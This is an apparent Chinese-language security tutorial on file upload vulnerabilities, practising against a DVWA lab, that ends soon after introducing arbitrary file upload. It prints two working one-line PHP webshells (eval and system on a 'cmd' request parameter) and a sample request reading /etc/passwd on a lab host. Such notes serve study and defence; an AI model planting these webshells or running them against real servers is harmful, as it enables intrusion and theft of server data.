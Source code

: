 # 文件上传漏洞

## 一、概述

1. 文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等
2. 正常的文件一般是文档、图片、视频等，Web应用收集之后放入后台存储，需要的时候再调用出来返回
3. 如果恶意文件如PHP、ASP等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了Webshell
4. 一旦黑客拿到Webshell，则可以拿到Web应用的数据，删除Web文件，本地提权，进一步拿下整个服务器甚至内网
5. SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击Web服务，实际渗透两种相结合，达到对目标的深度控制

> Webshell
> 小马： 一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数
> 大马： 代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙/入侵系统检测到

```php
shell1.php   #eval 使用php函数，例如phpinfo(); <?php eval($_REQUEST['cmd']);?>    http://10.3.139.173/dvwa/hackable/uploads/shell2.php?cmd=phpinfo();

shell2.php   #system 使用Linux系统命令,例如ls,cp,rm <?php system($_REQUEST['cmd']);?> http://10.3.139.173/dvwa/hackable/uploads/shell3php?yangge=cat /etc/passwd
123
```

说明：REQUEST是在网页端输入变量访问，POST则是使用像中国菜刀之类的工具连接，是C/S架构。

## 二、任意文件上传

启动owasp

![image-20201111094633748](70、文件上传漏洞/image-20201111094633748.png)
